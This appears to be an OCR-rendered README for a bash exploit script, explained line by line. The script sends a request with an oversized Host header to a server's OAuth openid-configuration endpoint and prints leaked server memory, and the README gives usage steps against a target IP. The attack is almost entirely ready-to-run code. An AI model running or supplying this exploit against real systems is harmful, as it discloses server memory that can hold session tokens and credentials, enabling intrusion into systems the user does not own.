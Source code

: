 ```bash
header_value=$(yes a | head -n 24576 | tr -d '\n')
```

Here, the `headers` variable is constructed with the `-H` option for the cURL command. It sets the 'Host' header to the previously generated `header_value`.

```bash
headers="-H 'Host:$header_value'"
```
This line uses cURL to send a request to the specified URL with the constructed `headers`. The `-s` flag suppresses progress meter and error messages, while the `-k` flag allows cURL to perform an insecure SSL connection. The `--connect-timeout 10` flag sets a connection timeout of 10 seconds. The response is stored in the `response` variable.

```bash
response=$(curl -s -k -H "$headers" "https://$hostname/oauth/idp/.well-known/openid-configuration" --connect-timeout 10)
```

In this block, it checks if the exit status of the cURL command is 0 (indicating a successful request) and if the first three characters of the response are "200" (HTTP success code). If both conditions are met, it prints `--- Dumped memory ---`, followed by a portion of the response starting from character 131,051, and then indicates that the hostname is vulnerable. If the conditions are not met, it prints `Could not dump memory`.

```bash
if [ $? -eq 0 ] && [ "$(echo $response | cut -c 1-3)" == "200" ]; then
    echo "--- Dumped memory ---"
    echo "$response" | cut -c 131051-
    echo "The #HOSTNAME is vulnerable!"
    echo "---      End      ---"
else
    echo "Could not dump memory"
fi
```

## Script sh

The script.sh script accepts one parameter, which should be the target hostname without the application of a protocol (e.g., `192.168.1.200`). It uses this parameter to perform a specific action in the exploit.

Example Execution:

```shell
./script.sh 192.168.1.200
```

Before running the script, you might need to grant execute permissions to the file, as mentioned. You can do this with the following command:

```shell
sudo chmod +x script.sh
```

After assigning execute permissions, the above command allows the user to run the script without having to specify the sh command before the script's name.
